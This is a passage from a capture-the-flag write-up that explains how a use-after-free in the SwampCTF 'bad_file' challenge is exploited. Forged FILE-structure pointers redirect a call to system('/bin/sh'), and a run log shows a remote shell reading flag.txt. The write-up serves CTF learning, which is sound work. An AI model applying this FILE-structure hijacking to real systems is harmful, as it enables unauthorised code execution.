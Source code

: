 ```
$1 = 0x400000
gef➤  vmmap
Start              End                Offset             Perm Path
0x0000000000400000 0x0000000000401000 0x0000000000000000 r-x /Hackery/swamp/bad_file/bad_file
0x0000000000600000 0x0000000000601000 0x0000000000000000 r-- /Hackery/swamp/bad_file/bad_file
0x0000000000601000 0x0000000000602000 0x0000000000001000 rw- /Hackery/swamp/bad_file/bad_file

.   .   .
```

Here we can see that the value we overwrote at offset `0xa0` to be `0x400000` is causing a crash (the reason why it is an address, is because earlier that value is derefereced, so if it isn't an address it would of causes a crash). Here it is running the `cmpxchg` instruction which compares the two operands, and if they aren't equal the contents of the second argument are moved into the first. The issue here is that the memory region `0x400000` is in is not writeable, so it crashes when it tries to write to it. To solve this I just looked through the memory region starting at `0x601000` for an eight byte segment that was equal to `0x0` (since without our hacking that's what the value is). Since there isn't `pie` I know the address before the binary runs, and since the region is writeable I can write to it no problem.

So with that, it just leaves us with our final problem. What value will we overwrite the pointer to an instruction pointer with to get code execution. There is a `hidden_alleyway` function which would print the flag, however due to the lack of infoleaks I couldn't find a way to get a pointer to it's address. Luckily for us the GOT table has system in it. So to get a shell I just overwrote the pointer at offset `0xd8` with the got address of `system - 0x40` (we need the `-0x40` to counter the `+0x40`). Then when it dereferences that pointer, and jumps to an instruction pointer it will call system. 

The last thing we need is to pass the argument `/bin/sh` to the function `system` (which takes a char pointer as an argument). Luckily for us the first argument is passed in the `rdi` register, which at the time of the jump is a pointer to the freed `heapPtr` (and due to the overlap, `stream` too). So we just have to set the first eight bytes of our input equal to `/bin/sh\x00` (we need the null byte in there to seperate it from the rest of the input) to pass the argument `/bin/sh` to system.

### Exploit Code

With all of this, we can write the exploit:

```
$   python exploit.py 
[+] Opening connection to chal1.swampctf.com on port 2050: Done
Would you like a (1) temporary name or a (2) permanent name?
Hello, 15935728 (for now)
I created a void for you, and this can let you practice some sorcery
You're in danger, you'll need a new name.
[*] Switching to interactive mode

Now let's send some magic to the void!!
$ w
 23:24:24 up 8 days, 48 min,  0 users,  load average: 0.00, 0.01, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
$ ls
bad_file
flag.txt
$ cat flag.txt
flag{plz_n3v3r_f1l3_4ft3r_fr33!}
```

Just like that we captured the flag!   
